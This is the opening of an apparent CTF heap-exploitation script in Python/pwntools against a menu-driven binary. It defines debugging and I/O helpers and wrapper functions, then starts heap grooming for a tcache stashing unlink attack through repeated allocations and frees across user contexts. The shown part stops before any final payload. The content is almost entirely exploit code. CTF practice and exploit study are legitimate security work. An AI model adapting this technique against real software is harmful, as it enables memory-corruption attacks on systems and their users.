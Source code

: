 ```plain
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s            : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data        : u32(data.ljust(4, '\x00'))
uu64 = lambda data        : u64(data.ljust(8, '\x00'))


def Menu(cmd):
    sla('Choice: ', str(cmd))

def Add(size, content):
    Menu(1)
    sla('size: ', str(size))
    sla('message: ', content)

def Show(idx):
    Menu(2)
    sla('index: ', str(idx))

def Edit(idx, content):
    Menu(3)
    sla('index: ', str(idx))
    sa('message: ', content)

def Del(idx):
    Menu(4)
    sla('index: ', str(idx))

def Change(user):
    Menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')


#----- prepare tcache_stashing_unlink_attack
Change(2)
for x in xrange(5):
    Add(0x90, 'B'*0x28) # B0~B4
    Del(x)    # B0~B4

Change(1)
Add(0x150, 'A'*0x68) # A0
for x in xrange(7):
    Add(0x150, 'A'*0x68) # A1~A7
    Del(1+x)
Del(0)

Change(2)
Add(0xb0, 'B'*0x28) # B5 split 0x160 to 0xc0 and 0xa0

Change(1)
Add(0x180, 'A'*0x78) # A8
for x in xrange(7):
    Add(0x180, 'A'*0x78) # A9~A15
    Del(9+x)
Del(8)

Change(2)
Add(0xe0, 'B'*0x38) # B6 split 0x190 to 0xf0 and 0xa0

```